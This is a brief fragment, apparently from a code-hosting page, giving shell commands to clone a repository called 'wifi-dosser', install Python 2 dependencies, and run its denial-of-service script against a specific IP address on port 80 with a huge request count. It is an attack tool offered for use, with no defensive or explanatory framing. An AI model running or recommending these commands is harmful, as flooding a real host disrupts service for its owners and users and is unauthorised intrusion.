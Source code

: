 $ git clone https://github.com/artem-cell/wifi-dosser
$ cd wifi-dosser
$ pip2 install requests mechanize
$ python2 wifi-ddoser.py
$ python2 wifi-ddoser.py (93.175.232.92) 80 (9999999)
